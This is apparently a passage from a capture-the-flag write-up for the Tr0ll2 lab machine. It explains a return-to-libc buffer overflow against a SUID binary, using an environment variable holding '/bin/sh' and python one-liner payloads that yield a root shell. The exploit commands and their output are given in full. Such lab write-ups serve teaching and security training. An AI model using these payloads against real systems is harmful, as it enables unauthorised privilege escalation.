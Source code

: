 Cool, we know where the system function call resides (0x40069060), now - what do we want to call? How about ```/bin/sh```? There's one problem though - when passing it as an argument to ```system()```, we need to pass an address of the string going in as argument.

There are couple of options - we can either try to find it in existing environment variables (but it may be hard as the string we want may not be there and we would need to be exact regarding its memory address to be able to extract it) or we can simply create new environment variable with whatever value we want and pass that in!

Going with the second option, we control what value we want to pass in and we can also do a variety of a NOP sled as in the previous example.

As before, let's create an environment variable to use as an argument to our ```system()``` call.

```
noob@Tr0ll2:/nothing_to_see_here/choose_wisely/door3$ export EGG=//////////////////////////////////////////////////////bin/sh
```

Number of ```/``` acts as a NOP sled, we can land anywhere on them and the exploit will still work, thus, we don't need to be super specific about the string's memory location.

Now we just need it's address and we are ready to rock! Let's use the same ```egghunt``` program as in the previous example.

```
noob@Tr0ll2:/nothing_to_see_here/choose_wisely/door3$ ~/egghunt 
EGG address 0xbffffe93
```

Awesome! Let's craft our exploit - again, we'll need (in sequence):

* 268 bytes of dummy data
* address of system
* 4 bytes of dummy data
* address of /bin/sh string

Let's do it!

```
noob@Tr0ll2:/nothing_to_see_here/choose_wisely/door2$ ./r00t $(python -c 'print "A" * 268 + "\x60\x90\x06\x40" + "BBBB" + "\x93\xfe\xff\xbf"')
Segmentation fault
noob@Tr0ll2:/nothing_to_see_here/choose_wisely/door2$ ./r00t $(python -c 'print "A" * 268 + "\x60\x90\x06\x40" + "BBBB" + "\xa3\xfe\xff\xbf"')
sh: 1: s/0: not found
Segmentation fault
noob@Tr0ll2:/nothing_to_see_here/choose_wisely/door2$ ./r00t $(python -c 'print "A" * 268 + "\x60\x90\x06\x40" + "BBBB" + "\xb3\xfe\xff\xbf"')
# whoami
root
# 
```

Got it! On the 3rd try, didn't seem to be able to guess EGG address that effectively this time, but at the end of the day it worked! :) Now you see why having a decent size NOP sled helps, otherwise, we would need to find *EXACT* address where it starts... in some situations it could be pretty hard if not impossible to do!
